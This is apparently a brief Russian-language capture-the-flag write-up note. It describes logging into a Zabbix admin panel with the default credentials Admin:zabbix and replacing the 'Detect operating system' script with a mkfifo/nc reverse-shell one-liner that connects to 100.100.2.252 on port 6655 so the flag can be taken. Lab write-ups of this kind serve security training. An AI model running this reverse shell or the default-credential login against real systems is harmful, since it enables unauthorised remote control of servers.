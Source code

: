 Входим в админку Admin:zabbix

Переходим в alert/script и изменяем скрипт Detect operating system на rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 100.100.2.252 6655 >/tmp/f

Запускаем скрипт с главной страницы и забираем флаг

![[../../Pasted image 20250609152014.png]]